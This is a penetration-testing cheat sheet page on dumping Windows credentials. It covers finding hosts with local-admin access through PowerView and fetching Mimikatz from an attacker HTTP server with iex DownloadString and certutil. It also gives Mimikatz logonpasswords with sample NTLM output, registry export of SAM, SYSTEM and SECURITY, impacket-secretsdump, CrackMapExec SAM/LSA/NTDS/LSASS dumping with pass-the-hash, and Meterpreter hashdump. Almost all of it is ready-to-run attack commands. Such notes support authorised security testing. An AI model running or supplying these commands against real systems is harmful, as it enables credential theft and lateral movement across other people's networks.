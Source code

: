 # Dumping credentials

## Locally

### Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

#### Target preparation&#x20;

The primary thing to do is to look a PC where we are Local admin or have some privilege. Once we find the computer, we connect to it.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-Domain
Find-LocalAdminAccess # find access where we are local admin

# connect in those pc 
Enter-PSSession $LOCAL_ADMIN_SYSTEM # (ex. seclogs.research.DOMAIN.local)
```

Now, check the privilege that we have in the machine with this command:

```powershell
whoami /all
```

Then, we need to transfer the tool to dump hashes to the target machine.

{% code title="Linux -> Windows Target" %}
```bash
# into linux
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
certutil -urlcache -f http://$IP/$FILE_NAME $LOCAL_FILE_NAME
```
{% endcode %}

{% code title="Windows -> Windows Target" %}
```powershell
# Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```



## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.



### Impacket's secretsdump&#x20;

```bash
impacket-secretsdump $DOMAIN.COM/$USER:$PASS@$DC_IP
```

```bash
impacket-secretsdump administrator:@$IP -hashes $LM:$NT
```



### CrackMapExec



```bash
# print all module
crackmapexec smb -L
```



#### Mimikatz

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --ntds
```

#### Dump LSASS

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --lsassy

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' -M lsassy
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
msf> hashdump
```





## Hash-Identify

This is a tool that simplify the hash type detection

```bash
hash-identifier
# paste your hash
```



